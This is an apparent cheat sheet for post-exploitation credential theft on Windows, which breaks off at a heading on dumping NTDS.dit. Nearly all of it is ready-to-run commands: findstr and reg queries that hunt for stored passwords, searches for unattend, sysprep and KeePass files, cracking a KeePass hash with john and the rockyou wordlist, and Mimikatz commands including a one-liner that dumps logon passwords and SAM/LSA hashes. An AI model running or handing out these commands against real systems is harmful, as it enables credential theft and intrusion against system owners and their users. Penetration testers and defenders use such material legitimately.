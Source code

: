 #### **Searching for Passwords in Files**

```bash
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
```

#### **Searching for Passwords in Registry**

```powershell
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  
```

#### **Finding Passwords in Config Files**

```bash
dir /b /s unattend.xml  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
```

#### **Searching for KeePass (KDBX) Files**

```bash
dir /s /b *.kdbx  
```

#### **Cracking KeePass Passwords**

```bash
keepass2john Database.kdbx > keepasshash  
john --wordlist=/usr/share/wordlists/rockyou.txt keepasshash  
```

* * *

### Dumping Windows Password Hashes

#### **Mimikatz - Extracting Hashes and Credentials**

```powershell
privilege::debug  
sekurlsa::logonpasswords  # Extracts hashes & plaintext passwords  
lsadump::sam  
lsadump::lsa /patch  # Dumps SAM  
```

#### **One-Liner Mimikatz Execution**

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"  
```

#### **Dumping Hashes from NTDS.dit (Active Directory Database)**
